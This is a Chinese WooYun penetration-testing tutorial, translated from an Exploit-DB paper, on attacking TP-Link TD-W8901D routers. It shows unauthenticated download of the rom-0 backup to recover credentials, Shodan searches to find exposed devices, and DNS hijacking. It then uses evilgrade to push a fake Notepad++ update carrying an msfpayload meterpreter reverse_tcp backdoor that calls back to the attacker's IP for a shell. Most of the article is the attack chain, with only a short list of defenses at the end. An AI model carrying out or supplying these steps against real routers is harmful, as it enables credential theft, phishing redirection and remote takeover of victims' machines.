


# TPLINK 渗透实战

2014/07/16 10:32 | [楚无伤](http://drops.wooyun.org/author/楚无伤 "由 楚无伤 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [渗透案例](http://drops.wooyun.org/category/pentesting "查看 渗透案例 中的全部文章") | 占个座先 | 捐赠作者

**from: http://www.exploit-db.com/wp-content/themes/exploit/docs/33369.pdf**

## 0x00 工具

* * *

一台笔记本电脑 TD-W8901D 路由器（firmware 6.0.0） 虚拟机(WIN7)、Kali Linux（攻击机）、evilgrade（一个模块化的脚本框架，可实现伪造的升级、自带 DNS 和 WEB 服务模块，http://www.infobyte.com.ar/down/isr-evilgrade-Readme.txt) Metasploit。

## 0x01 示例

* * *

**互联网攻击示意图：**


**局域网攻击示意图**


市场上有很多类型的路由器可用，但绝大部分从未升级固件，所以可对大多数家用路由进行这个攻击，在这个项目中使用的是最常见的 TPlink 路由器。

TPLINK 某些版本有一个关键的漏洞：未授权访问 Firmware/Romfile 界面，无需登陆密码，像这样 http://IP//rpFWUpload.html。

同时也可以下载 romfile 备份文件（rom-0）,像这样：http://IP address/rom-0。

步骤一：下载 rom 文件 

下载回来的 rom 文件需要逆向工程得到明文密码，但有一个更简单的方法，去俄罗斯的一个网站可以解密 http://www.hakim.ws/huawei/rom-0/

步骤二：使用账号密码登陆 

第三步：使用搜索引擎 SHODAN 搜索 RomPager，可在互联网上找到 700 多万个这种设备 

简单的改变一下路由器的 DNS，就可以重定向用户的请求，这个方法可以用来钓鱼（从我了解的情况看来，国内已经有大批路由被利用，并已经被黑产用作钓鱼欺诈，黑产表打我，我猜的）。但这个太简单了，作者希望玩的更高(hua)深(shao)一些。

默认 DNS 的配置是这样： 

改成攻击者自己的 DNS：


攻击系统：DNS 服务器一台、kali 预装了 evilgrade 和 metasploit。


第五步：建一个带后门的 payload，给用户发送升级指令。LHOST= 攻击者机器 IP 和 LPORT =任何开放的端口。

```
Commad:@@# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.5.132 LPORT=8080 x > navebackdoor.exe 
```


第六步：启动 metasploit、运行 payload



  


第七步：设置监听主机和监听端口，命令：set LHOST（攻击者的 IP）、set LPORT（监听端口，创建后门时分配的）、exploit（进行攻击）


第八步：启动假的 WEB 升级服务器 evilgrade，执行 show modules 后，可以看到很多假更新模块，这里选用 notepadplus


第九步：show options 可以看到模块的使用方法，设置后门升级文件路径使用 agent：

```
Set  agent  ‘[“<%OUT%>/root/Desktop/navebackdoor.exe<%OUT%>”]’ 
```


第十步：完成以上动作后，启动 EvilGrade 的 WEB 服务器：

```
start 
```


第十一步：等受害者打开 notepadplus，一旦打开就会弹出要求更新的提示，更新过程中将会加载我们的后门程序。


第十二步：在攻击机器上，evilgrade 和 Metasploit 建立会话，等待返回的 shell


第十三步：拿到 shell，使用 sysinfo 查看一下：


输入 help 可以看到很多命令，包括 scrrenshot、killav,运行 vnc 等


## 0x02 防御方法

* * *

经常升级你的路由器版本

路由器不要在公网暴露

系统和软件升级时检查证书

设置静态 IP，比如 google 的 8.8.8.8、8.8.4.4（广告：阿里巴巴的公共 dns 223.5.5.5 和 223.6.6.6）

版权声明：未经授权禁止转载 [楚无伤](http://drops.wooyun.org/author/楚无伤 "由 楚无伤 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Powershell tricks::Bypass AV](http://drops.wooyun.org/tips/3353)
*   [非扫描式定位攻击域内 SQL Server](http://drops.wooyun.org/pentesting/2134)
*   [WIFI 渗透从入门到精通](http://drops.wooyun.org/pentesting/3390)
*   [使用 LDAP 查询快速提升域权限](http://drops.wooyun.org/pentesting/2125)
*   [基于 ossec logstash es 大数据安全关联分析](http://drops.wooyun.org/tips/2821)
*   [如何发现 NTP 放大攻击漏洞](http://drops.wooyun.org/tips/4715)